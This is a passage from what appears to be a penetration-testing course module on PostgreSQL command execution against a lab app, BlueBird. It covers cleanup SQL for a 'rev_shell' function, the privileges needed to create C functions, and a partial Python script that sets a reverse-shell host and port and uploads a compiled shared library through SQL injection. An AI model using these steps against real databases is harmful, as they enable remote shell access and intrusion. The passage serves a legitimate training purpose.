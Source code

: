 After you're done running commands, make sure to clean up after yourself by dropping the function from the database, as well as any large objects you may have created (depending on how you uploaded the library):

```shell
bluebird=# DROP FUNCTION rev_shell;
DROP FUNCTION
bluebird=# SELECT lo_unlink(58017);
 lo_unlink
-----------
         1
(1 row)

```

Note: If you'd prefer, you can use the `testing VM` for compilation, where `gcc` and `postgresql-server-dev-13` are already installed.

#### Permissions

Not every user can create functions in PostgreSQL. To do so, a user must be either a `superuser`, or have the `CREATE` privilege granted on the `public` schema. Additionally, `C` must have been added as a `trusted` language, since it is untrusted by default for all (non-super) users.

For reference check out the [PSQL Documentation](https://www.postgresql.org/docs/current/sql-grant.html) and this answer on [StackOverflow](https://stackoverflow.com/questions/7014437/error-permission-denied-for-language-c).

#### Automation / Writing an Exploit

In some cases it may make sense to write an exploit script to `automate` the steps for you. Uploading a shared library via large objects and then invoking a function call can require many requests and submitting those all manually can get quite tedious, so this is a good scenario to write a script to do it for you.

Here is a nearly completed script which automates (unauthenticated) command execution against BlueBird. Feel free to use it as a base for the exercise portion of this section.

```python
#!/usr/bin/python3

import requests
import random
import string
from urllib.parse import quote_plus
import math

# Parameters for call to rev_shell
LHOST = "192.168.0.122"
LPORT = 443

# Generate a random string
def randomString(N):
    return ''.join(random.choices(string.ascii_letters + string.digits, k=N))

# Inject a query
def sqli(q):
    # TODO: Use an SQL injection to run the query `q`

# Read the compiled extension
with open("pg_rev_shell.so","rb") as f:
    raw = f.read()

# Create a large object
loid = random.randint(50000,60000)
sqli(f"SELECT lo_create({loid});")
print(f"[*] Created large object with ID: {loid}")
```